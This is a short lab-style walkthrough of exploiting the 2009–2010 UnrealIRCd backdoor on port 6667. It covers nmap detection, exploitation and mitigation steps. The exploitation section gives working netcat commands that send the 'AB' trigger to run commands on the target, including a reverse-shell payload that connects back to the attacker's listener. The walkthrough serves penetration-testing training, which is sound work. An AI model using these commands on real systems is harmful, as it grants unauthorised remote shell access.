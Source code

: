 Full Walkthrough: UnrealIRCd Backdoor (Port 6667)
Theory & Background
Between November 2009 and June 2010, the UnrealIRCd source code download contained a malicious backdoor. Anyone who downloaded and installed the software from the official mirrors during this period had a backdoored version. The backdoor allows remote attackers to execute arbitrary commands by sending a specially crafted AB command to the listening IRC port.

Step-by-Step Walkthrough
1. Identification
bash
nmap -p6667 -sV <target_ip>
nmap -p6667 --script irc-unrealircd-backdoor <target_ip>
Expected Result: The version scan (-sV) might show a version number like 3.2.8.1. The NSE script will confirm if the backdoor is present.

2. Exploitation
The backdoor is triggered by sending the string AB followed by a system command.

bash
# Using netcat to exploit the backdoor
echo "AB; whoami;" | nc -nv <target_ip> 6667

# For a reverse shell (more useful)
# On your machine, set up a listener first: nc -nlvp 4444
echo "AB; nc -e /bin/bash <your_ip> 4444;" | nc -nv <target_ip> 6667
What to do: The output of the command (e.g., root) may be returned in the IRC MOTD banner. For a reverse shell, your listener will catch the connection.

3. Mitigation
Immediate Action: Immediately upgrade UnrealIRCd to the latest version from the official website.

Network Control: Restrict access to the IRC port using a firewall, allowing only trusted IP ranges to connect.

Verification: If you suspect a compromise, check for unauthorized processes, user accounts, and other backdoors, as the system may have been fully compromised.